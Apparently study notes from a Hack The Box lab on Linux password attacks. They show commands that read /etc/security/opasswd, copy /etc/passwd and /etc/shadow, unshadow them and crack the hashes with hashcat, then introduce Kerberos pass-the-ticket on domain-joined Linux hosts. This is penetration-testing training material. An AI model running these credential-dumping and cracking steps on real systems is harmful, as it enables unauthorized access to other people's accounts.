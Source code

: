 ## Reading etc security opasswd
```
Suljov@htb[/htb]$ sudo cat /etc/security/opasswd

cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```

Looking at the contents of this file, we can see that it contains several entries for the user cry0l1t3, separated by a comma (,). Another critical point to pay attention to is the hashing type that has been used. This is because the MD5 ($1$) algorithm is much easier to crack than SHA-512. This is especially important for identifying old passwords and maybe even their pattern because they are often used across several services or applications. We increase the probability of guessing the correct password many times over based on its pattern.

## Cracking Linux Credentials

Once we have collected some hashes, we can try to crack them in different ways to get the passwords in cleartext.

## Unshadow
```
Suljov@htb[/htb]$ sudo cp /etc/passwd /tmp/passwd.bak 
Suljov@htb[/htb]$ sudo cp /etc/shadow /tmp/shadow.bak 
Suljov@htb[/htb]$ unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

## Hashcat - Cracking Unshadowed Hashes
```
Suljov@htb[/htb]$ hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

## Hashcat - Cracking MD5 Hashes
```
Suljov@htb[/htb]$ cat md5-hashes.list

qNDkF0zJ3v8ylCOrKB0kt0
E9uMSmiQeRh4pAAgzuvkq1
```
```
Suljov@htb[/htb]$ hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```

## Pass the Ticket PtT from Linux
Although not common, Linux computers can connect to Active Directory to provide centralized identity management and integrate with the organization's systems, giving users the ability to have a single identity to authenticate on Linux and Windows computers.

A Linux computer connected to Active Directory commonly uses Kerberos as authentication. Suppose this is the case, and we manage to compromise a Linux machine connected to Active Directory. In that case, we could try to find Kerberos tickets to impersonate other users and gain more access to the network.
